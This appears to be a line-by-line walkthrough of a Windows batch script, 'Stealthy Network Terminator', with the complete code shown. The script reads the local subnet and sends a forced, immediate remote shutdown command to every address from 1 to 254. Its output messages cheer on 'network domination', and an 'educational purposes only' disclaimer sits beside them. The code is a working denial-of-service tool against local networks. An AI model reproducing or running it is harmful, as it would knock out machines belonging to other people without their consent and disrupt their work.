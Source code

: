 




sline-by-line explanation:

```plaintext
1. @echo off
```
- Disables echoing of commands, preventing them from being displayed in the console as they are executed.

```plaintext
2. setlocal enabledelayedexpansion
```
- Enables delayed expansion of variables, allowing the use of `!` syntax to access variable values within loops.

```plaintext
3. REM Stealthy Network Terminator - Developed by FLUFFY
```
- A comment providing information about the script, including its name and developer.

```plaintext
4. REM This script is for educational purposes only. Misuse for malicious intent is illegal.
```
- A comment emphasizing the script's intended use for educational purposes only and warning against misuse.

```plaintext
5. REM FLUFFY presents the Stealthy Network Terminator (SNT), a potent tool for hacking enthusiasts.
6. REM It silently infiltrates your local network, wreaking havoc with a single click.
```
- Comments further describing the purpose of the script, presenting it as a tool for hacking enthusiasts that can silently infiltrate a local network to cause havoc.

```plaintext
7. REM WARNING: Use this tool responsibly and only on networks you own or have explicit permission to test.
```
- A warning emphasizing responsible use of the script and advising against using it on networks without proper authorization.

```plaintext
8. REM Get ready to unleash chaos! Initiating SNT...
```
- A comment indicating that the script is about to begin executing its main functionality.

```plaintext
9. REM Get local IP address
10. for /f "tokens=2 delims=:" %%i in ('ipconfig ^| findstr IPv4') do (
11.     set "local_ip=%%i"
12. )
```
- Retrieves the local IP address of the machine by parsing the output of the `ipconfig` command and storing it in the variable `local_ip`.

```plaintext
13. if "%local_ip%"=="" (
14.     echo Failed to retrieve local IP address. Aborting operation.
15.     exit /b 1
16. )
```
- Checks if the local IP address was successfully retrieved. If not, it displays an error message and exits the script with an error code.

```plaintext
17. REM Extract network range
18. for /f "tokens=1,2,3 delims=." %%a in ("!local_ip!") do (
19.     set "network_range=%%a.%%b.%%c."
20. )
```
- Extracts the network range from the local IP address by splitting it at each period (.) and storing the first three parts in the variable `network_range`.

```plaintext
21. if "%network_range%"=="" (
22.     echo Failed to extract network range. Aborting operation.
23.     exit /b 1
24. )
```
- Checks if the network range was successfully extracted. If not, it displays an error message and exits the script with an error code.

```plaintext
25. REM Initiating shutdown sequence for all devices in the network range
26. echo Stealth mode activated... Engaging the SNT...
```
- Indicates that the script is about to begin shutting down devices on the network and provides some dramatic flair.

```plaintext
27. set "error_count=0"
```
- Initializes a variable `error_count` to keep track of any errors encountered during the shutdown process.

```plaintext
28. for /L %%i in (1,1,254) do (
29.     set "ip=!network_range!%%i"
30.     shutdown /s /f /t 0 /m \\!ip! >nul 2>&1
31.     if errorlevel 1 (
32.         echo Failed to send shutdown command to !ip!... Evading detection.
33.         set /a "error_count+=1"
34.     ) else (
35.         echo Shutdown command sent to !ip!... Target neutralized.
36.     )
37. )
```
- Loops through all IP addresses in the network range (from 1 to 254), constructs each IP address, and sends a shutdown command to it using the `shutdown` command. It also checks if the command was successful and updates the `error_count` variable accordingly.

```plaintext
38. echo.
```
- Outputs a blank line for better readability in the console.

```plaintext
39. if %error_count% gtr 0 (
40.     echo %error_count% devices failed to shut down... Potential resistance detected.
41. ) else (
42.     echo All devices in the network range have received shutdown command... Network domination achieved!
43. )
```
- Checks if any devices failed to shut down. If so, it displays the number of failures. Otherwise, it indicates that all devices have received the shutdown command successfully.

```plaintext
44. echo Terminating SNT... Exit stealth mode and return to the shadows.
45. pause
```
- Provides a closing message and pauses the script execution to allow the user to view the output before closing the console window.
